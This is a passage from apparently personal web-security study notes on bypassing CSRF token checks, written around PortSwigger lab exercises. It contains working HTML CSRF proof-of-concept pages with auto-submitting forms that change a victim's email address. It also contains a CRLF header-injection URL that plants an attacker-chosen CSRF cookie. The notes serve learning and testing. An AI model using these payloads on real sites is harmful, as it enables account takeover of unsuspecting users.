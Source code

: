 The `history.pushState` function is ensuring the malicious page's URL endpoint is set to '/' to avoid suspicion while keeping the PoC on a unique endpoint to ensure crawlers do not scrape the page or interact with the PoC.

The form is automatically submitted with `document.getElementById('autoSubmitForm').submit()`. If the victim has a current session cookie, it will use that to change their email to the attacker's email.

> Check to see if you can bypass the CSRF token validation by omitting the value entirely.
****
> Check to see if you can use your own CSRF token that was generated for you, and use that value to test for CSRF of another user.
#### *When a CSRF token is not tied to a session*
If the CSRF token uses a separate value that is not tied to a session cookie and you can make arbitrary requests on their behalf by simply using their session cookie instead of yours, and you can also set the cookie that contains the CSRF key value to yours, then you can make malicious requests on behalf of the user.

This website also contains a reflected XSS vulnerability that sets a cookie from user input, crafting this URL will set a user controlled cookie in the browser. `/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None`

The attacker can craft and host the following:
```
<form id="myForm" action="https://vulnerable-website.com/my-account/change-email" method="post">   
	<input type="hidden" name="email" value="attacker@gmail.com">   
	//attackers CSRF token
	<input type="hidden" name="csrf" value="LHFti01j2MlMSxp1P2G6WBzAgiQrumUD"> 
</form>  

<img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=o1qVFLOfmFtHZsNaP9SARJwXRWOG9grb%3b%20SameSite=None" onerror="document.forms[0].submit()" />
```

**Duplicated cookie**
If the cookie for the CSRF token is the same on the form it means that is being duplicated, and if you can change the value of the cookie containing the CSRF token, then change the cookie to be the same as the one on the form, also try and match the format, example:
```
<html>
  <body>
<img src="https://vulnerable-website/?search=term%0d%0aSet-Cookie:%20csrf=1%3b%20SameSite=None" onerror="document.forms[0].submit()" />
  <script>history.pushState('', '', '/')</script>
    <form action="https://0abc006b03bc2c99859460e5001f00ba.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker@email.com" />
      <input type="hidden" name="csrf" value="1" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
#### *Method override for GET request when `SameSite` is set to `Lax`*
When trying to perform a CSRF exploit you can override the request method, here is a list of methods to do such: [[Method override methods]]
